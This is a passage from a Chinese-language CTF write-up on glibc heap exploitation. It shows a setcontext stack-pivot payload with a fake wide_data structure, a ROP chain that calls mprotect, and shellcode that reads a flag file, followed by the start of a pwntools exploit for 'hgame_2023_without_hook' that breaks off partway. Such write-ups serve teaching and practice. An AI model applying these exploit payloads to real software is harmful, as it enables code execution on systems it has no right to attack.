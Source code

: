 ![image-20230219122649934](https://s2.loli.net/2023/02/19/D9hA1rjE68fuVTG.png) 

#### setcontext

（乱入。主要是题目 ban 了 execve 所以就写了栈迁移。

![image-20230219143022977](C:\Users\zhngy\AppData\Roaming\Typora\typora-user-images\image-20230219143022977.png) 

  需要构造：

```python
#wide_data
payload += flat(
    {
        0x20:fake_wide_data, # rdx & write_ptr
        0x28:libc_base + libc.sym['setcontext'] + 61,
        0xe0:fake_wide_data+0x10,
        0xa0:rop_chain,  #rsp
        0xa8:rdi_ret

    },
    filler = '\x00'
)
payload = payload.ljust(0x1f0, b'\x00')

#rop_chain
#mprotect(heapbase, 0x100, 7)
payload += flat(
    {
        heap_base,
        rsi_ret,
        0x100,
        rdx_rbx_ret,
        0,
        7,
        libc_base + libc.sym['mprotect'],
        heap_base + 0xf30
    }
)

#sc
payload += asm(shellcraft.open('./flag'))
payload += asm(shellcraft.read(3, heap_base + 0xfe0, 20))
payload += asm(shellcraft.write(1, heap_base + 0xfe0, 20))
```

### hgame_2023_without_hook

丢一下完整的 exp

- exp

  ```python
  from pwn import *
  
  context(os='linux',arch='amd64',log_level='debug')
  content = 1
  
  if content == 1:
      context.terminal = ['tmux','splitw','-h']
      p = process("vuln")
      # gdb.attach(p, 'b _IO_flush_all_lockp')
      # p = gdb.debug('./vuln')
      pause()
  
  else:
  ```